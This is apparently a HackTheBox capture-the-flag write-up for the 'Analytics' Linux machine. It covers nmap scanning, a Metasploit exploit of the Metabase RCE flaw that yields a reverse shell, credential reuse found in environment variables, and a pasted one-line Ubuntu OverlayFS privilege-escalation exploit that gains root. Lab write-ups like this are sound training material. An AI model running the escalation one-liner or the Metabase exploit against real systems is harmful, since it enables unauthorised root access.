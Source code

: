 Analytics is an HTB machine, running on **Linux**. In it we use **`nmap`** to perform reconnaissance, them exploit** a known CVE in the **`Metabase`** service, with a little help from **`msfconsole`**, to get a foothold on the machine as the `Metabase` service user. We then find plaintext user credentials in the **environment variables** and use it to `ssh` onto the machine as this user. Finally, we use a vulnerability in the **kernel** version to escalate our privileges to root and find the root flag.

## Reconnaissance
We'll use `nmap` to get an overview of listening ports and a more involved scan for port 80. It returns the following results.

```zsh
sudo nmap {ip}
sudo nmap {ip} -p80 -sV -sC
```
```
PORT   STATE SERVICE
22/tcp open  ssh
.
.
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since we've found a domain, we'll add `analytical.htb` to our `/etc/hosts` file so we can easily open it in our browser.
```
sudo sh -c 'echo "{ip} analytical.htb" >> /etc/hosts'
```

There we find a static website with no interesting elements on first inspection, except for a 'Log In'-button, which takes us to `data.analytical.htb`. This page contains a login-screen for a service called `Metabase`. 

Since we have no user credentials and we've exhausted all the leads as of now, this concludes the reconnaissance.

## Gaining a foothold on the machine
We'll start by searching for known exploits of this `Metabase` service, since that's our most solid lead. We find [CVE 2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646) which allows RCE on versions <= 0.46.6.1 or 1.46.6.1 and a [Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/metabase_setup_token_rce.rb) that exploits it. 

Using Metasploit (`msfconsole`), selecting this specific exploit and supplying the ip-address and port number, we'll verify whether the service on this machine is indeed vulnerable. It is, so we'll execute the Metasploit module and setup a reverse shell. 

Our reverse shell gets us a foothold on the machine as the user `metabase`. This user does not have any flag in its home directory, so to find the user flag we'll need to perform some horizontal movement on the machine and get a shell as another user. 

## Horizontal movement and user pwn
When we enumerate the the environment variables with `env`, we'll find that it contains plaintext user credentials for a user called `metalyzer` in the `Metabase` database.

`metalytics@analytical.htb::An4lytics_ds20223#`

These seem to be credentials for the `Metabase` service log-in screen we found at `data.analytical.htb`. Indeed, we can login successfully.

However, we do not find anything useful when logged in to this service, that could help us get a shell as another user. We'll instead see if this `metalyzer` user reuses this username and password on the machine itself. Using `ssh` and the same credentials, we'll see that this is indeed the case and with a shell as user `metalyzer` we can view the `user.txt` flag.

## Privilege escalation to root
Enumeration reveals that the kernel version of this machine is vulnerable for privilege escalation from user to root. Explanation and steps are explained [in this reddit post](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). While we're at it, we'll edit the exploit code to `cat` out the `root.txt` flag.

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt
")'
```